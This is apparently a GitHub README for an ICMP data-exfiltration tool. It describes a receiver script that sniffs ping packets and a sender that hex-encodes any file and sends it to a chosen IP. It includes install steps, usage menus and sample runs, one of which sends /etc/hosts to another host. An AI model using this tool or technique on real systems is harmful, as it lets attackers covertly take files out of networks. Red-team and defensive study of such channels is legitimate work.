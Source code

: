 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```
or
```bash 

sudo apt install python3-scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display and also in the same time the script
will save the output to indicate file.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py <Interface-Name>                             
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

┃  [!] Usage icmp_sendData.py <IP-Address> <File-Name>                       
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0
                                                                                                                                                                                      
┃  [*]  Listening for any incoming connections...                                                                                                                                         
                                                                                                                                                                                          
┃  [*]  Saving data to file 

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

┃  [*]  Hosts active,  Linux system

┃  [*]  Trying to send file..

100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 720000/720000 [00:00<00:00, 4097689.59it/s]

┃  [*]  File sent successfully
```
Then from another host we will run the "icmp_sendData.py" script by providing the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

